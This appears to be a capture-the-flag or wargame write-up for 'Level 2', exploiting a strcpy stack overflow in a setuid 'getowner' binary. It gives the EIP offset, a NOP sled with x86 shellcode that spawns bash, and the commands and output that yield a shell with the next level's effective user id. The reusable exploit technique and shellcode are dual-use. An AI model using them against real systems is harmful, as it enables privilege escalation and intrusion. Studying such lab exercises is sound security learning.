 # Level 2

## Details
**Vulnerability:** Buffer overflow

**Memory Security:** None

**Description**
This challenge was a basic buffer overflow. The attack vector for this challenge, is through an environment variable called "filename". The getowner binary reads this information and performs a strcpy, allowing me to smash the stack and gain control of EIP. The payload, which includes a nopsled and shellcode, was stored in an additional environment variable and the address of this environment variables was discovered using the getenvaddr tool.


The first thing I did was smash the stack and enumerate how many bytes it took to overwrite EIP. I used peda's pattern and pattern_search tools in GDB to do this. However, I could have easily done it with Metasploit's pattern_create.rb or similar methods.

Bytes to overwrite EIP: 151(buffer) + 4(ret) = 155

At this point, I created a payload, which consists of a nopsled and my shellcode, and put it in an environment variable called SHELL. I use the getenvaddr tool to find out the memory address, which points to the beginning of my payload.

I then use this address when overriting EIP to execute my shellcode.

## Exploit
Setting up the payload:
```bash
level2@blackbox:~$ export SHELL=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

Getting the SHELL environment variable location:
```bash
level2@blackbox:/tmp/hpl2$ ./getenvaddr SHELL ~/getowner
SHELL will be at 0xbfffdb0c
```

Setting up the buffer overflow and exploitation: 
```bash
level2@blackbox:/tmp/hpl2$ export filename=`python -c 'import struct; print "A" * 151 + struct.pack("<L", 0xbfffdb0c)'`

level2@blackbox:/tmp/hpl2$ ~/getowner 
The owner of this file is: 0
bash-3.1$ id
uid=1003(level2) gid=1005(gamers) euid=1004(level3) groups=1003(level2),1005(gamers)
```


